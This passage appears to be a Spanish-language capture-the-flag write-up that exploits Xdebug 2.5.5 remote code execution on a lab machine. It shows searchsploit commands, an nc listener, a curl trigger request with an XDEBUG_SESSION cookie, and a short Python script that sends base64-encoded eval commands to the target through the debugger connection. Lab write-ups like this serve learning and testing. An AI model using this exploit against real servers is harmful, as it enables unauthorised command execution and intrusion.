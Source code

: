 Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de atacante en el puerto 9000
- usa el comando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- ejecuta el fichero con php
- la peticion esta enviada por el methodo GET con `'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)'`

### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recibimos datos del lado del servidor.

### Explotacion de la vulnerabilidad {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'eval -i -- ' + b64encode(data) + b'\x00')
```
